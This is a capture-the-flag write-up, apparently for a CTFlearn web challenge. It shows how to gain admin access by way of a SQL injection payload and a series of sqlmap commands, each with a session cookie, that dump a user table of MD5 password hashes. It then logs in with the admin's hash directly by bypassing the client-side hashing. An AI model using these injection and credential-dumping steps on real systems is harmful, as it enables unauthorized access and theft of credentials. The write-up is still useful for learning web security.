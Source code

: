 so we get to a website: 38.197.193.132:5000
it has a login/register form.
we need to get admin login.
we try to connect with username:admin, password:12345, and we can see that the browser is hashing the password even before sending it to the client side form handler - 
it changes the password on the form for hash(password), which is md5.
<script>
        function hash() {
            document.form.password.value = md5(document.form.password.value);

            return true
        }
</script>

that means that we only need to get the md5 of the password of the admin, not the password itself. we can cancel the swich in the browswer, and it will sent the hashed password.

to get the hashed we need a SQL injection:
if we just register with random username, password, we see a search form:
<form class="uk-margin-large-top" action="/" method="post">
          <h4>Search our extensive list of hashbrowns</h4>
          
  <label for="search">Search</label>
  <input class="uk-input" id="search" name="search" required="" type="text" value="">
  

  <button type="submit">Search!</button>
</form>

which looks like that:
Search our extensive list of hashbrowns
Search :
(user input feild)
 Search button!
No hashbrowns came up for that search

so we can insert queries and get the results:
we can see easily that by simple injection of inserting:  ' OR ""='
we get:
Name:
Flagbrown
Description:
Only admins may view this hashbrown
Name:
Uncooked
Description:
You probably don't want to eat this type of hashbrown. Flag this one for review.
Name:
Perfect
Description:
Cooked to perfection, eat now.
Name:
Burnt
Description:
Not the best, but in a pinch, it works.

which means that Flagbrown is the feild of the flag, but we need to be admins to see that one.
so, we use the great sqlmap:
after quick tutorial you can see that we need to suply url with -u, -p with post data format, --data with post query example, and --method POST here.
to give the cookie for this to work, we can use --cookie.
from there it is strate forward:

1. we need to get the database name:
python3 sqlmap.py -u http://138.197.193.132:5000/ --data "search=Flagbrown" -p "search" --method POST --cookie="session=.eJyd
jktuwzAMRK8icG0EMiVLsk_RfREU4i824DaF5ayC3D0CeoOuSGI4b-YJX7bXtmqD5fMJ7uwDvrW1elMY4GPX2tTt95vbftx5d5W5i-5ct-Z--88Frq_hn77r0MMPbSss5_HQfm0CCxAHwSIWcKreiDVkKoicfKF5jlaQaqWMGjNnTHkmZtHCmE2V0Guyvgt64eJx5M5ipGlM
HSjmcw5RxpjqbBRtqpGkUgxBUla1WLjXfzQ9_sqEAq83sqVaWw.Xf6J-Q.N1xHHpXAavYCRaLu8PkKOkARPr0" --db


2. we need to get tables:
python3 sqlmap.py -u http://138.197.193.132:5000/ --data "search=Flagbrown" -p "search" --method POST --cookie="session=.eJyd
jktuwzAMRK8icG0EMiVLsk_RfREU4i824DaF5ayC3D0CeoOuSGI4b-YJX7bXtmqD5fMJ7uwDvrW1elMY4GPX2tTt95vbftx5d5W5i-5ct-Z--88Frq_hn77r0MMPbSss5_HQfm0CCxAHwSIWcKreiDVkKoicfKF5jlaQaqWMGjNnTHkmZtHCmE2V0Guyvgt64eJx5M5ipGlM
HSjmcw5RxpjqbBRtqpGkUgxBUla1WLjXfzQ9_sqEAq83sqVaWw.Xf6J-Q.N1xHHpXAavYCRaLu8PkKOkARPr0" -D preshashbrwon --tables


3. we need to get tables colums:
python3 sqlmap.py -u http://138.197.193.132:5000/ --data "search=Flagbrown" -p "search" --method POST --cookie="session=.eJyd
jktuwzAMRK8icG0EMiVLsk_RfREU4i824DaF5ayC3D0CeoOuSGI4b-YJX7bXtmqD5fMJ7uwDvrW1elMY4GPX2tTt95vbftx5d5W5i-5ct-Z--88Frq_hn77r0MMPbSss5_HQfm0CCxAHwSIWcKreiDVkKoicfKF5jlaQaqWMGjNnTHkmZtHCmE2V0Guyvgt64eJx5M5ipGlM
HSjmcw5RxpjqbBRtqpGkUgxBUla1WLjXfzQ9_sqEAq83sqVaWw.Xf6J-Q.N1xHHpXAavYCRaLu8PkKOkARPr0" --dump -D preshashbrown -T user --columns

4. we need to get tables content:
python3 sqlmap.py -u http://138.197.193.132:5000/ --data "search=Flagbrown" -p "search" --method POST --cookie="session=.eJyd
jktuwzAMRK8icG0EMiVLsk_RfREU4i824DaF5ayC3D0CeoOuSGI4b-YJX7bXtmqD5fMJ7uwDvrW1elMY4GPX2tTt95vbftx5d5W5i-5ct-Z--88Frq_hn77r0MMPbSss5_HQfm0CCxAHwSIWcKreiDVkKoicfKF5jlaQaqWMGjNnTHkmZtHCmE2V0Guyvgt64eJx5M5ipGlM
HSjmcw5RxpjqbBRtqpGkUgxBUla1WLjXfzQ9_sqEAq83sqVaWw.Xf6J-Q.N1xHHpXAavYCRaLu8PkKOkARPr0" --dump -D preshashbrown -T user

and we get:
+----+-------+-----------------------------------------------+---------------+
| id | admin | password                                      | username      |
+----+-------+-----------------------------------------------+---------------+
| 2  | 1     | 32E0C348B4A5BB41DB683BC5690B546F              | admin         |
| 3  | 0     | c5caa67d534c59d1db8a586a10c08157 (jowls)      | jowls         |
| 4  | 0     | a3aca2964e72000eea4c56cb341002a4 (hhh)        | ggggg         |
| 5  | 0     | 4297f44b13955235245b2497399d7a93 (123123)     | eladbeber619  |
| 6  | 0     | 8ce3f2de6a1e527b7e2b0c81807743e9 (' or 1=1--) | ' or 1=1--    |
| 7  | 0     | 202cb962ac59075b964b07152d234b70 (123)        | administrator |
| 8  | 0     | 4297f44b13955235245b2497399d7a93 (123123)     | salazar236    |
+----+-------+-----------------------------------------------+---------------+
means, that the admin hashed password is:  32E0C348B4A5BB41DB683BC5690B546F
we enter this in the form with hash on client canceld, and get into admin account.
after searching Flagbrown:

Name:
Flagbrown
Description:
This hashbrown is special, here is your flag: CTFlearn{h4shbr0wns_0n_th3_s3rv3r_@!#$<>[]}
and there is the flag.
